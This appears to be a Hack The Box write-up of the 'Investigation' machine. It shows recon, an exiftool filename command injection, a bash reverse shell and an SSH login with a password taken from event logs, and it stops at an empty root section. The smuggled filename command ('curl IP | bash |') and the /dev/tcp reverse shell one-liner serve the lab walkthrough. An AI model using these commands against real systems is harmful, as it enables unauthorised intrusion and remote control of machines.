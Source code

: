 ```yaml
---
title: \"Hackthebox Investigation\"
date: 2023-01-25T14:44:57+01:00
draft: true
---
```


On Investigation we exploit an exiftool vulnerability from file upload that allow command execution and to gain a reverse shell.
Next we get credentials for one user from a mail text message. Finally, for root we have to do a little bit
of binary exploitation using ghidra.
<!--more-->

## **Nmap**

As usual we start we some recon :

```
nmap 10.129.139.235
Nmap scan report for 10.129.139.235
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

## **HTTP:80**

![image text](/investigation_htb_web.png)

Jumping on the website we see a free service which allow us to upload image file (png/jpg) :

![image text](/investigation_htb_upload.png)

The output allows us to view exiftool's version number.

![image text](/investigation_htb_exif.png)

The version is 12.39 and it seems that it's vulnerable to command injection through a crafted filename. 
If the filename passed to exiftool ends with a pipe character `|` and exists on the filesystem,
then the file will be treated as a pipe and executed as an OS command.

The proof of concept can be found **[here](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)**.
Now all we have to do is to rename our image file with one linux command add the pipe at the end : 

```
mv image.png 'curl IP | bash |'
```
Next we need to create and index.html file, put a bash reverse shell in it and host our file using python :

```
cat index.html
bash -i >& /dev/tcp/IP/6666 0>&1
```
```
python3 -m http.server 80
```

Setup a netcat listener and let's go :

```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.139.235
www-data@investigation:~/uploads/1674415004$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## **Shell as smorton**

There is a Windows Event Logs message file owned by smorton in `usr/local/investigation`.
Transfer the mail on our machine and open it with outlook : 

![image text](/mail_investigation.png)

We can see that there is a zip file in attachment. After unziping it, I got an EVTX file, a Windows XML EventLog file.
To analyze the file I choose : **[EVTX](https://github.com/omerbenamram/evtx)**.

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ ./evtx_dump-v0.8.0-x86_64-unknown-linux-gnu -f output_evtx -o json security.evtx
```
The output contains a lot of rows so lets filter it : 

```bash
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ grep TargetUserName evtx_ouput | sort -u > sorted.txt
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Documents/htb/box/investigation]
└─$ head -n 11 sorted.txt                                
      \"TargetUserName\": \"-\",
      \"TargetUserName\": \"aanderson\",
      \"TargetUserName\": \"AAnderson\"
      \"TargetUserName\": \"AAnderson\",
      \"TargetUserName\": \"Administrator\"
      \"TargetUserName\": \"Administrators\"
      \"TargetUserName\": \"AWright\"
      \"TargetUserName\": \"Backup Operators\"
      \"TargetUserName\": \"BMay\"
      \"TargetUserName\": \"DefaultAccount\"
      \"TargetUserName\": \"Def@ultf0r3nz!csPa$$\",
```
I noticed `Def@ultf0r3nz!csPa$$` it seems like a password so let's try it to ssh to smorton user : 

![image text](/ssh_investigation.png)

And it works, let's switch to the root part now

## **Shell as root**


